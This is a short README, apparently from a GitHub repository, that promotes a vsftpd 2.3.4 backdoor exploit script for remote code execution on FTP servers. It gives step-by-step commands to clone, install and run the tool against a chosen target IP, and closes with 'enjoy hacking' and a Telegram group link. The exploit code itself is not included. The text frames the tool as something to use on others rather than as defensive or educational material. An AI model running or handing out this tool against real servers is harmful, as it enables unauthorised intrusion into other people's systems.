 This is a vsftpd 2.3.4 exploit script for backdoor access (RCE) from vulnerable FTP servers.

This script can be used in Linux, Termux , Windows

Enter the following commands in order to run the script 

in Linux and Termux :

apt-get update && apt-get upgrade 

pkg install git 

git clone https://github.com/CyberBlackWolves/BW-VSFTPDEXP.git

cd BW-VSFTPDEXP

chmod +x *

pip install -r requirements.txt

python BW-VSFTPD-ExP.py --host 127.0.0.1

replace 127.0.0.1 with Target IP address ,
run the script and enjoy hacking :) 

Our Telegram: https://t.me/BlackWolves_Team
